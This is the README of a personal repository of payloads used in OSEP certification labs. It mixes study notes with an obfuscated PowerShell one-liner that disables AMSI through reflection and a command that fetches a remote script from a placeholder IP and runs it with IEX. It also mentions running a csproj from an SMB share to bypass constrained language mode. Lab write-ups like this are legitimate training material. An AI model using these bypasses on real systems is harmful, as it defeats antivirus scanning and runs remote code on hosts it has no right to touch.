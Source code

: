 # OSEP-Stuff

This repo contains all the payloads I had used in the OSEP challenge labs as well as my first(and coming tomorrow second exam attempt). For backround, I got plunged into the course like a month ago, and since I was off semester break and have the oscp, crtp as well as a fairly deep knowledge of Active Directory exploitation and was able to dedicate time from 10/11 am until 2 am on the osep; I felt confident to take it on! I am happy to fail it but feel that considering the monster effort I put in as well as my previous knowledge that it should go hopefully well!

I skipped about half the course. Certain sections I didnt really pay attention to, such as DotNetToJS since I didnt see a need for it. Other sections I skipped through such as network evasion, kisok breakout, and some of the Active Directory stuff since I was intimately fimilar with it all. The most time I spent was building robust, and simple payloads. I didnt develop many(as you can see from this repo) but these all sufficently work to either getting you a shell back without amsi or CLM; worst case is theres still amsi, in which a one liner will do. I just wrote the same code in different format, just connect to my smbshare on kali and execute a csproj file. 

Sheldons FullBypass.csproj covered by every need at any moment when I needed a powershell session without amsi or clm; all I had to do was execute it and I was golden. The newest things for me were Linux, SSH and MSSQL exploitation. I reccomend deeply engaging with labs 3 and 4 as those will cover these abundantly. 

#Antivirus Bypass

I only used two payloads if sheldons fullbypass.csproj didnt work or if I didnt need to bypass clm and so only needed to bypass amsi: 

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (('b'+("{1}{0}"-f':1','lE'))+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f(('U'+'ti')+'l'),'A',('Am'+'si'),(('.'+'Man')+('ag'+'e')+('me'+'n')+'t.'),('u'+'to'+(("{1}{0}"-f 'io','mat')+'n.')),'s',(('Sys'+'t')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+('ms'+'i')),'d',('I'+('n'+'itF')+('a'+'ile'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+('t'+'at')),'i',(('N'+'on')+('Pu'+'bl')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
The above one liner helps when I have shell access post CLM bypass.
```powershell
IWR -UseBasicParsing http://ip/sidestep.ps1 | IEX
```
In the situation I dont have direct shell access or dont have CLM but still am facing amsi then using the above command with https://github.com/raskolnikov90/LainAmsiOpenSession/blob/main/lainamsiopensession.ps1 You can bypass AMSI without issue : ) 


